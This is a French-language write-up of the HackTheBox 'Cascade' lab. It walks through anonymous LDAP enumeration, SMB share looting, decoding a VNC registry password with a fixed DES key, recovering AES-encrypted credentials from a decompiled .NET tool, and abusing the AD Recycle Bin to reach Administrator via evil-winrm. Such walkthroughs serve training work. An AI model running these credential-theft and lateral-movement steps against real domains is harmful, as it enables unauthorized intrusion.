

Writeup: Cascade (HackTheBox)


Informations de la Cible

    Nom : Cascade

    Difficulté : Medium

    Outils : nmap, ldapsearch, dnSpy, CyberChef, Evil-WinRM


1. Reconnaissance & Énumération LDAP

On commence par un scan rapide pour identifier les services actifs.

```bash
nmap <IP>
```

Le scan révèle que le port 389 (LDAP) et le port 445 (SMB) sont ouverts.
Énumération LDAP

N'ayant pas de compte au départ, j'ai tenté une énumération anonyme pour lister les objets du domaine. J'ai découvert un attribut non-standard nommé cascadeLegacyPwd.

```bash
ldapsearch -x -h <IP> -b "dc=cascade.local" "(objectClass=*)" cascadeLegacyPwd
```

    Résultat :

        Utilisateur : r.thompson

        Mot de passe (Base64) : clk0bjVldmE= -> rY4n5eva


2. Mouvement Latéral : s.smith

Avec les accès de Thompson, j'ai listé les partages disponibles :

```bash
nxc smb <IP> -u 'r.thompson' -p 'rY4n5eva' --shares
```

Le dossier Data est accessible.

```bash
smbclient //<IP>/Data -U 'r.thompson%rY4n5eva'
```

En fouillant, j'ai trouvé un fichier dans IT\Temp\s.smith\VNC Install.reg. 
Dans ce fichier la ligne suivante m'a interpellé (VNC) : "password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

Décodage VNC :

```bash
echo -n "6bcf2a4b6e5aca0f"| xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

    Résultat : sT333ve2

Récupération du user.txt sur le bureau de s.smith :

```bash
evil-winrm -i <IP> -u 's.smith' -p 'sT333ve2'
```

    Directory: C:\Users\s.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/11/2026   1:18 PM             34 user.txt

```bash
cat user.txt
```


3. Analyse Crypto & Accès Service

Steve Smith a accès au partage Audit$ :

```bash
nxc smb <IP> -u 's.smith' -p 'sT333ve2' --shares
smbclient //<IP>/Audit$ -U 's.smith%sT333ve2'
```

avec la commande "get" je récupère les fichiers qui m'intéresse:

```bash
get Audit.db
get CascAudit.exe
get CascCrypto.dll
```

Pour trouver le mot de passe chiffré de ArkSvc, j'ai ouvert la base avec sqlite3 :

```bash
sqlite3 Audit.db
```

```bash
select * from Ldap;
```

résultat : 1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local

Pour comprendre comment déchiffrer le mot de passe récupéré, j'ai utilisé dnSpy.
En analysant CascCrypto.dll (fichier:Crypto) et CascAudit.exe (fichier:MainModule), j'ai extrait les paramètres :

    IV : 1tdyjCbY1Ix49842

    Key : c4scadek3y654321

J'ai utilisé CyberChef afin de traiter la donnée visuellement avec les paramètres trouvés ci-dessus :



Le mot de passe obtenu pour arksvc est : w3lc0meFr31nd


4. Escalade de Privilèges

Connexion en WinRM avec le compte de service :

```bash
evil-winrm -i <IP> -u arksvc -p 'w3lc0meFr31nd'
```

Dans la session, j'ai vérifié mes groupes :

```bash
whoami /groups
```

L'utilisateur appartient au groupe "AD Recycle Bin", ce qui permet d'accéder aux objets supprimés.

J'ai utilisé cette commande PowerShell pour interroger la "AD Recycle Bin" et trouver le compte TempAdmin :

```bash
Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

    Attribut critique : cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz

    Mot de passe (Base64) : YmFDVDNyMWFOMDBkbGVz -> baCT3r1aN00dles


5. Flag Root

Le mot de passe de TempAdmin est réutilisé pour le compte Administrator.

```bash
evil-winrm -i <IP> -u 'Administrator' -p 'baCT3r1aN00dles'
```

    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/11/2026   1:18 PM             34 root.txt

```bash
cat root.txt
```